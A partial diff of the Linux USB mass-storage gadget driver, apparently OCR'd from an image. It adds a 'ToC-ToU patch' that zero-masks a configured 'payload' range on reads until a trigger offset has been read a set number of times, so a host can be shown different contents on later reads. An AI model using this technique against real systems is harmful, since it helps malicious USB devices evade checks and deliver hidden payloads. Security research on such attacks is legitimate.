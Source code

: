 ```
+				end = min(file_offset + amount, curlun->payload_offset + curlun->payload_size) - file_offset;
+				LINFO(curlun, "READ ZERO-MASKED RANGE: [0x%llx;0x%llx)\n", begin, end);
+				memset(bh->buf + begin, 0, end-begin);
+			}
+		}
+
+		/* detect read on the trigger offset and decrement the trigger counter */
+		if (
+			(curlun->trigger_counter > 0) && 
+			(curlun->trigger_offset >= file_offset) &&
+			(curlun->trigger_offset < (file_offset+amount))
+		) {
+			LINFO(curlun, "READ ON TRIGGER OFFSET: T=%d\n", curlun->trigger_counter);
+			curlun->trigger_counter -= 1;
+		}
+
 		if (signal_pending(current))
 			return -EINTR;
 
@@ -858,6 +887,7 @@ static int do_write(struct fsg_common *common)
 		file_offset_tmp = file_offset;
 		nwritten = kernel_write(curlun->filp, bh->buf, amount,
 				&file_offset_tmp);
+		LINFO(curlun, "WRITE A=0x%llx S=0x%x\n", file_offset, amount);
 		VLDBG(curlun, "file write %u @ %llu -> %d\n", amount,
 				(unsigned long long)file_offset, (int)nwritten);
 		if (signal_pending(current))
@@ -922,6 +952,7 @@ static void invalidate_sub(struct fsg_lun *curlun)
 	unsigned long	rc;
 
 	rc = invalidate_mapping_pages(inode->i_mapping, 0, -1);
+	LINFO(curlun, "invalidate_mapping_pages");
 	VLDBG(curlun, "invalidate_mapping_pages -> %ld\n", rc);
 }
 
@@ -996,6 +1027,7 @@ static int do_verify(struct fsg_common *common)
 		file_offset_tmp = file_offset;
 		nread = kernel_read(curlun->filp, bh->buf, amount,
 				&file_offset_tmp);
+		LINFO(curlun, "VERIFY A=0x%llx S=0x%x\n", file_offset, amount);
 		VLDBG(curlun, "file read %u @ %llu -> %d\n", amount,
 				(unsigned long long) file_offset,
 				(int) nread);
@@ -2733,6 +2765,12 @@ int fsg_common_create_lun(struct fsg_common *common, struct fsg_lun_config *cfg,
 	lun->initially_ro = lun->ro;
 	lun->removable = !!cfg->removable;
 
+	/* ToC-ToU patch */
+	lun->trigger_counter = cfg->trigger_counter;
+	lun->trigger_offset = cfg->trigger_offset;
+	lun->payload_offset = cfg->payload_offset;
+	lun->payload_size = cfg->payload_size;
+
 	if (!common->sysfs) {
 		/* we DON'T own the name!*/
 		lun->name = name;
@@ -2770,11 +2808,13 @@ int fsg_common_create_lun(struct fsg_common *common, struct fsg_lun_config *cfg,
 				p = "(error)";
 		}
 	}
```